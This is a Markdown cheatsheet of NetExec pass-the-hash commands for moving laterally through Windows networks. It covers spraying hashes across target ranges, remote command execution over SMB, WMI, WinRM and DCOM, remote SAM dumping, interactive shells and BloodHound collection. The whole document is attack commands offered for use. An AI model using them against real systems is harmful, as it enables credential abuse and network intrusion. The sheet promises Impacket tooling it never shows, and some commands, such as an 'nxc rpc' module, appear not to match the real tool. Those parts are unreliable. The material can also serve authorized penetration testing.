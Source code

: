 # Lateral Movement Cheatsheet

Compiled reference for using NetExec (nxc) Pass-the-Hash techniques and Impacket tooling during lateral movement operations. Replace placeholders (`<target>`, `<user>`, `<domain>`, `<LMHASH:NTHASH>`) with real values before running commands.

---

## NetExec Pass-the-Hash (PTH)

General tips:
- Provide hashes in `LMHASH:NTHASH` format; if LM hash is unknown, use `aad3b435b51404eeaad3b435b51404ee:<NTHASH>`.
- Append `--local-auth` when authenticating against local accounts instead of domain users.
- Add `--continue-on-success` to keep spraying additional targets even after a hit.
- Include `--verbose` for more detail during troubleshooting.

### SMB Module
- List shares with a hash:  
  `nxc smb <target_range> -u <user> -H <LMHASH:NTHASH> --continue-on-success --shares`
- Execute a single command via SMB (default PsExec):  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success -x "whoami"`
- Force a specific exec method (PsExec, WMExec, or Atexec):  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success --exec-method wmiexec -x "ipconfig /all"`
- Dump SAM remotely with the hash:  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success --sam`
- Trigger BloodHound collection with PTH:  
  `nxc smb <target_list.txt> -u <user> -H <LMHASH:NTHASH> --continue-on-success -M bloodhound`

### WinRM Module
- Spawn a remote PowerShell command:  
  `nxc winrm <target> -u <user> -H <LMHASH:NTHASH> --local-auth --continue-on-success -x "hostname"`
- Launch an interactive shell (PowerShell remoting):  
  `nxc winrm <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success --shell`

### RDP Module
- Validate RDP access with a hash (no GUI, just auth check):  
  `nxc rdp <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success`

### WMI Module (via SMB)
- Run a command through WMI while authenticating over SMB with a hash:  
  `nxc smb <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success --wmi "powershell.exe -ExecutionPolicy Bypass -Command whoami"`

### RPC/DCOM Module
- Execute commands via DCOM using pass-the-hash:  
  `nxc rpc <target> -u <user> -H <LMHASH:NTHASH> --continue-on-success -M exec -o COMMAND="whoami"`

